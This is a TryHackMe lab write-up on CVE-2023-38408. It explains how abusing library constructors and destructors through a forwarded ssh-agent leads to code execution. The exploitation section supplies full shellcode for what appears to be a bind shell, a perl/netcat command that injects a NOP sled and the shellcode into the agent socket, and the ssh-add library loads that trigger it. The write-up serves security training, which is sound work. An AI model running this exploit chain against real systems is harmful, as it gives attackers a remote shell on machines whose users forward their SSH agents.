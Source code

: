 # CVE-2023-38408

**Room Link:** [https://tryhackme.com/r/room/cve202338408](https://tryhackme.com/r/room/cve202338408)

## Background Info

Initially, ssh-agent allowed loading any shared library without filtering, leading to security concerns. In response to CVE-2016-10009, an allow-list (`/usr/lib*/,/usr/local/lib/` by default) was added to limit library loading. However, it is possible to abuse the side effects of the library's constructors (`dlopen`) and destructors (`dlclose`) to manipulate memory and control the program flow.

Code execution can be achieved by making the stack executable, registering a signal handler for `SIGSEGV` and manipulating its code, replacing the signal handler's code with code from another library, triggering a `SIGSEGV`, and replacing his handler's code to finally jump into the stack where the shellcode is stored.

The following paragraphs will present the detailed steps:

**1. Making the Stack Executable:**

Leveraging `dlopen()` to load one of the libraries grants the ability to make the stack memory region (specifically the target process `ssh-pkcs11-helper`'s stack) executable. This allows bypassing the usual protection against executing code on the stack.

**2. Copy the shellcode to the stack:**

Once the shellcode is generated, typically using tools like Metasploit, it can be copied to the stack memory using the socket generated from the SSH connection. The shellcode is also combined with a `NOP sled` which is a sequence of No-Operation assembly instructions. The reason why is to provide a larger target for the program execution flow to land on during the gadget execution.\


To verify whether the process has the desired executable flag, you can use the following commands in dbg, a Linux debugger. You can repeat the next few gdb commands once you have gained access as alice:\


First, obtain the PID of the process ssh-pkcs11-helper.

1. Attach dbg to the target process using its PID.
2. Use the command info proc mapping to examine the memory mappings of the process.
3. Look for the memory region corresponding to the stack, and check its flags, marked as rwx.\


**Terminal**

```shell-session
alice@workstation:~$ ps -aux | grep pkcs11-helperalice
1522 0.0 0.2 7788 5520 ? S 09:22 0:00 /usr/lib/openssh/ssh-pkcs11-helper
alice@workstation:~$ sudo gdb -p 1522
[snip]
29 ../sysdeps/unix/sysv/linux/poll.c: No such file or directory. (gdb) info proc mappings process 1522 Mapped address spaces:
Start Addr End Addr Size Offset Perms objfile
[snip]
0x7ffc7a83b000 0x7ffc7a85c000 0x21000 0x0 rwxp
[stack]
0x7ffc7a9df000 0x7ffc7a9e3000 0x4000 0x0 r--p
[vvar]
0x7ffc7a9e3000 0x7ffc7a9e5000 0x2000 0x0 r-xp
[vdso]
0xffffffffff600000 0xffffffffff601000 0x1000 0x0 --xp 
[snip]
```

Using gdb, you can verify whether the stack has the shellcode loaded by inspecting its content.\


Regarding the command `$rsp+10100`, it is an expression that references a specific memory location relative to the stack pointer (`$rsp`). In this case, `$rsp+10100` points to the memory location located 10100 bytes above the stack pointer.\


Observe that it contains a series of NOP (No Operation) instructions followed by the start of the shellcode: `0x31 0xc0 0x48 0x31 0xc0 0xff 0x48`

**Terminal**

```shell-session
(gdb) x/100xgb $rsp+10100
0x7ffc7a85994c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859954: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85995c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859964: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85996c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859974: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85997c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859984: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85998c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859994: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85999c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a8599a4: 0x90 0x90 0x90 0x90 0x90 0x48 0x31 0xc0
0x7ffc7a8599ac: 0x48 0x31 0xff 0x48
```

\


**3. Registering a Signal Handler:**

To successfully execute arbitrary code within the exploit, a custom signal handler must be registered for the `SIGSEGV` signal. This signal, known as a Segmentation Fault, is triggered when a program attempts to access an invalid memory address. By registering the signal handler, the exploit gains the ability to define a user-defined function that will be executed whenever the `SIGSEGV` signal occurs.

**4. Replacing the Signal Handler's Code:**

At this stage, the exploit leverages the technique of side-loading another library to replace the current signal handler's code with an alternative code segment that will jump to the stack where the shellcode is stored.

To ensure that the code segments of this new library remain mapped in memory even after `dlclose()` is invoked, the library must be marked with the "`Nodelete`" attribute. Ordinarily, when `dlclose()` is called to close a shared library, the library's code segments are unloaded from memory, and any associated resources are released. However, by utilizing the "`Nodelete`" attribute, the attacker prevents the code segments from being unloaded, effectively preserving their existence in memory beyond the `dlclose()` operation. This ensures that the replacement code, responsible for jumping to the shellcode in the stack, remains accessible and functional throughout the exploit's execution.

**5. Triggering SIGSEGV:**

By employing yet another library, the attacker intentionally triggers a `SIGSEGV` signal, which prompts the kernel to execute the custom signal handler previously registered. This strategic step is a critical part of the exploit's progression.

Upon receiving the `SIGSEGV` signal, the kernel recognizes that an invalid memory access has occurred and proceeds to invoke the custom signal handler rather than terminate the program abruptly. By doing so, the attacker seizes the opportunity to manipulate the program's execution and steer it toward the injected malicious code located within the NOP sled.

**6. Executing the Replacement Code:**

By achieving this precise jump into the executable stack, the exploit ensures that the program's execution is directed toward the specific memory location where the shellcode resides.&#x20;



## Exploitation

In this task, we will delve into running the exploit and gaining a more practical understanding of its functionality.\


For this particular scenario, we will be working with two machines: the workstation (a vulnerable instance of Ubuntu 21.04) and another server which is under the attacker's control (Attackbox). To simulate the vulnerable instance, a connection between the workstation and the server has been employed in the previous task. There is a user alice who is connected from the workstation to the attacker using SSH agent forwarding. Alice does this by executing the following commands (so you do not have to):

**Kali**

```
echo /tmp/ssh-*/agent.*
export SSH_AUTH_SOCK=/tmp/ssh-m0jgGsq7Jm/agent.3921
ssh-add -s /usr/lib/systemd/boot/efi/linuxx64.elf.stub
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To copy the shellcode into the process using the SSH socket, you need to follow these steps:

1. Obtain the `PID` of the SSH agent running on the remote attacker machine.
2. Once you have the socket, use netcat (`nc`) to transfer the shellcode to the agent's memory (workstation).&#x20;
3. After starting the transfer, wait for a few seconds to ensure the shellcode is fully copied into the target memory.
4. Finally, press Ctrl-C to stop the netcat transfer once the shellcode is successfully placed in the agent's memory.

Note that the next command will not use `ssh-add`. Because the malicious payload is around 10KB passphrase and ssh-add has a limit of 1KB.

**Kali**

```
SHELLCODE=$'\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05' 


(perl -e 'print "\0\0\x27\xbf\x14\0\0\0\x10/usr/lib/modules\0\0\x27\xa6" . "\x90" x 10000'; echo -n "$SHELLCODE") | nc -U "$SSH_AUTH_SOCK"

^C
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The next step to the exploitation process is register the signal handler for the Segmentation Fault (`SIGSEGV`) signal.

**Kali**

```
ssh-add -s /usr/lib/titan/libttcn3-rt2-dynamic.so
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After successfully registering the custom signal handler for `SIGSEGV`, the next crucial step in the exploitation process is to replace the original signal handler routine with a carefully chosen gadget. This gadget will serve as a means to redirect the program's execution flow and jump into the stack when the SIGSEGV signal is triggered.

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libKF5SonnetUi.so.5.92.0
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, by intentionally causing a segmentation fault, the `SIGSEGV` event can be triggered, executing the shellcode:

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libns3.35-wave.so.0.0.0
```

**Victim**

```
nc localhost 31337
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
